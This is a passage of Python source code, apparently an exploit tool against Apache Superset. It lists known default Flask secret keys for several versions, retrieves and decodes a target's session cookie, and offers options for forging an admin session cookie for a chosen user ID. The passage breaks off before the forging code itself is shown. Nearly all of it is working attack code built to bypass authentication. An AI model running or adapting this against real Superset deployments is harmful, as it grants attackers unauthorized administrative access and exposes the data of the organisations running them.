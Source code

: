 ```python
from flask_unsign import session
import requests
import urllib3
import argparse
import re
from time import sleep
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


SECRET_KEYS = [
    b'\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h',  # version < 1.4.1
    b'CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET',          # version >= 1.4.1
    b'thisISaSECRET_1234',                            # deployment template
    b'YOUR_OWN_RANDOM_GENERATED_SECRET_KEY',          # documentation
    b'TEST_NON_DEV_SECRET'                            # docker compose
]

def main():

    parser = argparse.ArgumentParser()
    parser.add_argument('--url', '-u', help='Base URL of Superset instance', required=True)
    parser.add_argument('--id', help='User ID to forge session cookie for, default=1', required=False, default='1')
    parser.add_argument('--validate', '-v', help='Validate login', required=False, action='store_true')
    parser.add_argument('--timeout', '-t', help='Time to wait before using forged session cookie, default=5s', required=False, type=int, default=5)
    args = parser.parse_args()

    try:
        u = args.url.rstrip('/') + '/login/'

        headers = {
            'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:101.0) Gecko/20100101 Firefox/101.0'
        }

        resp = requests.get(u, headers=headers, verify=False, timeout=30, allow_redirects=False)
        if resp.status_code != 200:
            print(f'Error retrieving login page at {u}, status code: {resp.status_code}')
            return

        session_cookie = None
        for c in resp.cookies:
            if c.name == 'session':
                session_cookie = c.value
                break

        if not session_cookie:
            print('Error: No session cookie found')
            return

        print(f'Got session cookie: {session_cookie}')

        try:
            decoded = session.decode(session_cookie)
            print(f'Decoded session cookie: {decoded}')
        except:
            print('Error: Not a Flask session cookie')
            return

        match = re.search(r'&#34;version_string&#34;: &#34;(.*?)&#34', resp.text)
        if match:
```